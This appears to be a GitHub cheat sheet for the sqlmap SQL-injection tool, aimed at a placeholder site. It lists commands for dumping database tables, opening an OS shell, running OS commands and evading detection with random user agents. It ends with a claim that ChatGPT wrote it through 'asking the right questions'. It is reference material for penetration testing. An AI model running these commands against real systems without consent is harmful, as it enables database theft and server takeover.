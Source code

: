 
# SQLmap Cheat Sheet

SQLmap is an open-source penetration testing tool that automates the process of detecting and exploiting SQL injection flaws and taking over of database servers.

## Basic Usage

- To test a single URL:

```
sqlmap -u "http://example.com/param1=value1&param2=value2"
```

- To specify the HTTP method:

```
sqlmap -u "http://example.com" --data="POST data to test" --method=POST
```

- To test a URL with cookies:

```
sqlmap -u "http://example.com/param=value" --cookie="name=value; name2=value2"
```

## Database Enumeration

- To get a list of databases:

```
sqlmap -u "http://example.com/param=value" --dbs
```

- To get a list of tables from a specific database:

```
sqlmap -u "http://example.com/param=value" -D database_name --tables
```

- To get a list of columns from a specific table:

```
sqlmap -u "http://example.com/param=value" -D database_name -T table_name --columns
```

- To dump the contents of a specific table:

```
sqlmap -u "http://example.com/param=value" -D database_name -T table_name --dump
```

- To dump specific columns from a table:

```
sqlmap -u "http://example.com/param=value" -D database_name -T table_name -C "column1,column2" --dump
```

## Operating System Interaction

- To get an interactive OS shell:

```
sqlmap -u "http://example.com/param=value" --os-shell
```

- To get an SQL shell:

```
sqlmap -u "http://example.com/param=value" --sql-shell
```

- To execute a single OS command:

```
sqlmap -u "http://example.com/param=value" --os-cmd "whoami"
```

## Advanced Enumeration

- To fingerprint the back-end database management system:

```
sqlmap -u "http://example.com/param=value" --banner
```

- To enumerate the user-privileges:

```
sqlmap -u "http://example.com/param=value" --privileges
```

- To enumerate the roles:

```
sqlmap -u "http://example.com/param=value" --roles
```

- To search for specific database names, table names, or column names:

```
sqlmap -u "http://example.com/param=value" --search -D database_wildcard -T table_wildcard -C column_wildcard
```

## Automation and Detection Settings

- To set the level of tests to perform (1-5):

```
sqlmap -u "http://example.com/param=value" --level=5
```

- To set the risk of tests to perform (1-3):

```
sqlmap -u "http://example.com/param=value" --risk=3
```

- To use a random User-Agent header:

```
sqlmap -u "http://example.com/param=value" --random-agent
```

## Legal Disclaimer

Usage of SQLmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program.

**Fully generated with ChatGPT,wasnt exepecting that uh ? It's all about asking the right questions...**
